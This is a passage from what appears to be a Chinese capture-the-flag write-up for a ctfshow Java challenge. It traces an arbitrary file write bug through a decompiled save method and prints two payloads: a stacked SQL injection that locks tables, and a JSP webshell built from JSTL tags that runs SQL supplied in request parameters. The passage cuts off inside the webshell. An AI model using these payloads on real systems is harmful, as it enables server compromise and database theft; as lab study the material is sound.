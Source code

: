 看名字似乎是一个保存文件的操作，继续跟进一下`saveFileAs`函数。

```java
public static boolean SaveFileAs(String content, String path) {
        FileWriter fw = null;

        boolean var4;
        try {
            fw = new FileWriter(new File(path), false);
            if (content != null) {
                fw.write(content);
            }

            return true;
        } catch (IOException var14) {
            var14.printStackTrace();
            var4 = false;
        } finally {
            if (fw != null) {
                try {
                    fw.flush();
                    fw.close();
                } catch (IOException var13) {
                    var13.printStackTrace();
                }
            }

        }

        return var4;
    }
```

看到这明白了，这个函数会以username为内容，password为文件名创建一个文件。而这两个参数又是我们可控的，所以这里存在任意文件写的漏洞。根据前面的分析，想利用到这个函数，就必须触发一开始的insert语句报错，最终执行到这个函数。

所以现在的目标是往username写木马，但是先要触发一个insert语句的报错。插入语句的报错通常有三种情况，分别是修改表造成主键重复、删除表造成查询错误、锁表。

答案采用的是锁表的操作，学到啦0_0

那么我们就先传参，利用堆叠注入先锁表。之后就传恶意木马触发报错从而写入文件。

第一步：

```java
username=a\&password=;flush tables with read lock;%23
```

第二步：

写入jsp文件，由于过滤了括号，这时候只能用jstl标签来执行jsp代码，这样就完美避开了括号。

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/sql" prefix="sql"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c"%>
<%@ page isELIgnored="false" %>
<sql:setDataSource var="test" driver="${param.driver}"
        url="${param.url}" user="root" password="root" />
   <sql:query dataSource="${test}" var="result">
        ${param.sql}
    </sql:query>

<table border="1" width="100%">
        <tr>
            <th>ctfshow</th>
        </tr>
        <c:forEach var="row" items="${result.rows}">
```